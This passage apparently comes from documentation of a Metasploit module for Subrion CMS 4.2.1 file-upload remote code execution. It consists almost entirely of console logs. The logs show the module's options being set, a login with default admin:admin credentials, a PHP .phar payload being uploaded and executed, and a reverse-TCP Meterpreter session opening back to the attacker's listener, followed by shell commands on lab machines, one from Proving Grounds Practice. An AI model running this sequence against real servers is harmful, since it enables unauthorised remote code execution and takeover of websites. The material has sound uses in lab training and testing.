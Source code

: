 ```
[*] Preparing payload...
[*] Sending POST data...
[+] Successfully uploaded payload at: http://192.168.245.133/uploads/htwgmjllep.phar
[*] Executing 'htwgmjllep.phar'... This file will be deleted after execution.
[*] Sending stage (39927 bytes) to 192.168.245.133
[*] Meterpreter session 1 opened (192.168.245.128:4444 -> 192.168.245.133:53698) at 2023-07-21 14:21:17 -0400
[+] Successfully executed payload: http://192.168.245.133/uploads/htwgmjllep.phar

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer    : debian
OS          : Linux debian 4.19.0-24-amd64 #1 SMP Debian 4.19.282-1 (2023-04-29) x86_64
Meterpreter : php/linux
meterpreter > 
```

### Subrion CMS v4.2.1 on Ubuntu 20.04 (Exfiltrated from Proving Grounds Practice)

* Also using PHP paylod - default TARGET 0

```
msf6 > use exploit/linux/http/subrion_cms_file_upload_rce
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(linux/http/subrion_cms_file_upload_rce) > set RHOSTS 192.168.195.163
RHOSTS => 192.168.195.163
msf6 exploit(linux/http/subrion_cms_file_upload_rce) > set LHOST tun0
LHOST => tun0
msf6 exploit(linux/http/subrion_cms_file_upload_rce) > set LPORT 80
LPORT => 80
msf6 exploit(linux/http/subrion_cms_file_upload_rce) > exploit

[*] Started reverse TCP handler on 192.168.45.162:80 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking target web server for a response at: http://192.168.195.163:80/panel/
[+] Target is running Subrion CMS.
[*] Checking Subrion CMS version...
[+] Target is running Subrion CMS Version 4.2.1.
[!] This version check does not guarantee that the target is vulnerable, since a fix for the vulnerability can easily be applied by a web admin.
[+] The target appears to be vulnerable.
[*] Connecting to Subrion Admin Panel login page to obtain CSRF token...
[+] Successfully obtained CSRF token: rtPDWFrHa45hIhhXhLknM7DbWiHqAfux1fziFd3j
[*] Logging in to Subrion Admin Panel at: http://192.168.195.163/panel/ using credentials admin:admin
[+] Successfully logged in as Administrator.
[*] Preparing payload...
[*] Sending POST data...
[+] Successfully uploaded payload at: http://192.168.195.163/uploads/ixqywjyjyd.phar
[*] Executing 'ixqywjyjyd.phar'... This file will be deleted after execution.
[*] Sending stage (39927 bytes) to 192.168.195.163
[*] Meterpreter session 1 opened (192.168.45.162:80 -> 192.168.195.163:57658) at 2023-07-24 10:35:58 -0400
[+] Successfully executed payload: http://192.168.195.163/uploads/ixqywjyjyd.phar

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer    : exfiltrated
OS          : Linux exfiltrated 5.4.0-74-generic #83-Ubuntu SMP Sat May 8 02:35:39 UTC 2021 x86_64
Meterpreter : php/linux
meterpreter > shell
```